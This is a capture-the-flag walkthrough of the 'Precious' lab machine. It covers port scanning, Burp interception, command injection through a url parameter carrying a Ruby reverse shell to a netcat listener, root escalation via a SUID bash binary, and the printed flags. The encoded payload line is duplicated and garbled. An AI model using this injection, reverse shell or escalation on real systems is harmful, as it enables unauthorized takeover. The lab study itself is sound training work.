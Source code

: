 # Reconnaissance

## Port Scan (nmap)
We perform a nmap port scan using the following command:

**Command:**\
*sudo nmap -sC -sV -p- {IP address}*

**Results:**\
TCP Ports Open:
* 22 - SSH
* 80 - HTTP

## Capturing the Request Using BurpSuite

We first add *precious.htb* to our */etc/hosts/* file and then access the precious.htb url.

We are then presented with the following page:

![image](https://user-images.githubusercontent.com/85443537/223785060-e7a56134-1813-479f-b49a-e24a233d0406.png)


Open up *Burpsuite* and set *FoxyProxy* for burpsuite and then enable intercept traffic in *Proxy* tab and then *Intercept is off*. 
After enabling intercept traffic, make a request using the submit button on the web application.

![image](https://user-images.githubusercontent.com/85443537/223787647-d2a12df8-cb05-4ed1-a583-60e3e42971dd.png)


After intercepting the request in burpsuite, right click on the request and select the *Send to Repeater* option to send it to repeater. 

![image](https://user-images.githubusercontent.com/85443537/223787927-e838eacb-a063-4792-828b-2d6c3fa54ebe.png)


In the repeater tab we send the request with an empty url parameter and see that one of the response headers *X-Runtime* hints us that it is using *Ruby*.

![image](https://user-images.githubusercontent.com/85443537/223788023-77a7523c-c882-4f76-a9b6-7e3ba69abf71.png)

## Netcat and Ruby Rerverse Shell
We set up a netcat listener in a new terminal that listens to port 4444 using the following command:

**Command:**\
*sudo nc -lvnp 4444*

**Command Description:**\
* -l : Listener (listen for incoming connections)
* -v : Verbose
* -n : Numeric only ip addresses (no DNS)
* -p : Port

**Results:**

![image](https://user-images.githubusercontent.com/85443537/223788845-a03f9548-5010-4fa0-b23c-8e177bd4d7b0.png)

We then return to burpsuite in the repeater tab and enter the following value for the *url=* parameter*.
Note: Replace {IP Address} with your attacker machine IP address (do not forget to remove the curly brackets).

*http%3A%2F%2F{IP Address}%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22*http%3A%2F%2F{IP Address}%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.65%22%2C4444%29%29%27%60*
%22%2C4444%29%29%27%60*

The decoded equivalent to url is (do not use the decoded version in the url parameter):
Note: Replace {IP Address} with your attacker machine IP address (do not forget to remove the curly brackets).

*http://{IP Address}:4444/?name=%20\` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("{IP Address}",4444))'\`*

![image](https://user-images.githubusercontent.com/85443537/223790881-5319a5de-33ae-46ed-9665-57237a2e612f.png)

After tapping send we get a reverse shell on our netcat listener that was previously set up.

## Inside the Shell

After getting reverse shell we can see that we logged in as the user *ruby*.

We run the following command to display all the files/directories that have the SUID bit set:

**Command:** *find / -perm /4000 2>/dev/null*

**Command Description:**\
* / : Look for all files and directories
*  -perm : Permissions
*  /4000 : SUID bit set
*  2>/dev/null : Redirects errors to /dev/null instead of showing them on screen

**Results:**

![image](https://user-images.githubusercontent.com/85443537/223792377-d064c884-2e6a-4a36-a08c-03ba1eb2e77a.png)

We look at the results and see we can run bash. We navigate to https://gtfobins.github.io/ and type in bash in the search bar.
Then scroll down till we reach SUID section. We can run *"bash -p"*.

After running the command *"bash -p"* on the victim machine, we surprisingly get root.

![image](https://user-images.githubusercontent.com/85443537/223793512-61823b48-66e0-489b-8ef8-2cbb863726c0.png)

We can now grab the user.txt flag from the user directory */home/henry* and the root.txt flag from root directory */root*.


# Goals

* USER Flag: 1ba79470b68e793ff903ebe6068553bd
* ROOT Flag: 5d0c40730f956d8bfa201a1475d0e4cc


